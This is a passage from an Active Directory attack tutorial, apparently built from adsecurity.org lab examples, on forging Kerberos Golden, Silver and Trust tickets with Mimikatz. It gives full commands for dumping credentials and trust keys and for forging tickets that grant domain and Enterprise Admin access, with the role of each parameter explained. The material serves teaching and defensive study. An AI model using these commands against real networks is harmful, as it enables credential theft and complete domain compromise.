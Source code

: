 ```
.\mimikatz "kerberos::golden /User:Administrator /domain:rd.lab.adsecurity.org /id:512 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

[Golden tickets across domains](https://adsecurity.org/?p=1640)

#### Silver Ticket

A Silver Ticket is a TGS (similar to TGT in format) using the target service account’s (identified by SPN mapping) NTLM password hash to encrypt and sign.

**Example Mimikatz Command to Create a Silver Ticket:**

The following Mimikatz command creates a Silver Ticket for the CIFS service on the server adsmswin2k8r2.lab.adsecurity.org. In order for this Silver Ticket to be successfully created, the AD computer account password hash for adsmswin2k8r2.lab.adsecurity.org needs to be discovered, either from an AD domain dump or by running Mimikatz on the local system as shown above (_Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit_). The NTLM password hash is used with the /rc4 paramteer. The service SPN type also needs to be identified in the /service parameter. Finally, the target computer’s fully-qualified domain name needs to be provided in the /target parameter. Don’t forget the domain SID in the /sid parameter.

```
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```

#### [**Trust Ticket**](https://adsecurity.org/?p=1588)

Once the Active Directory Trust password hash is determined, a trust ticket can be generated. The trust tickets are created using the shared password between 2 Domains that trust each other.\
[More background on Trust Tickets.](https://adsecurity.org/?p=1588)

**Dumping trust passwords (trust keys)**

```
Mimikatz “privilege::debug” “lsadump::trust /patch” exit
```

**Create a forged trust ticket (inter-realm TGT) using Mimikatz**

Forge the trust ticket which states the ticket holder is an Enterprise Admin in the AD Forest (leveraging SIDHistory, “sids”, across trusts in Mimikatz, my “contribution” to Mimikatz). This enables full administrative access from a child domain to the parent domain. Note that this account doesn’t have to exist anywhere as it is effectively a Golden Ticket across the trust.

```
Mimikatz “Kerberos::golden /domain:child.lab.adsecurity.org /sid:S-1-5-21-3677078698-724690114-1972670770 /sids:S-1-5-21-1581655573-3923512380-696647894-519 /rc4:49ed1653275f78846ff06de1a02386fd /user:DarthVader /service:krbtgt /target:lab.adsecurity.org /ticket:c:\temp\tickets\EA-ADSECLABCHILD.kirbi” exit
```

Trust Ticket Specific Required Parameters:

* \*\*/\*\*target – the target domain’s FQDN.
* \*\*/\*\*service – the kerberos service running in the target domain (krbtgt).
* \*\*/\*\*rc4 – the NTLM hash for the service kerberos service account (krbtgt).
* \*\*/\*\*ticket – provide a path and name for saving the forged ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
